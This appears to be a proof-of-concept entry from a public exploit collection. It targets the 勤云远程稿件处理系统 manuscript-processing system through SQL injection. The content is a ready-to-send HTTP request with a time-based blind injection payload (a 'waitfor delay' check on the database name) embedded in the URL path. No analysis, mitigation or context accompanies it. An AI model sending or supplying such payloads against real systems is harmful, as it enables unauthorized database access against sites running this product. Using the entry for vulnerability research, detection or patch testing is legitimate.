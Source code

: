 # qygj_sqli

from: https://github.com/wy876/POC/blob/main/%E5%8C%97%E4%BA%AC%E5%8B%A4%E4%BA%91%E7%A7%91%E6%8A%80/%E5%8B%A4%E4%BA%91%E8%BF%9C%E7%A8%8B%E7%A8%BF%E4%BB%B6%E5%A4%84%E7%90%86%E7%B3%BB%E7%BB%9F%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

product: 勤云远程稿件处理系统

```
GET /burpsuite'if%20db_name(1)='master'%20waitfor%20delay%20'0:0:5'--/article/abstract/1 HTTP/1.1
Host: 
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```
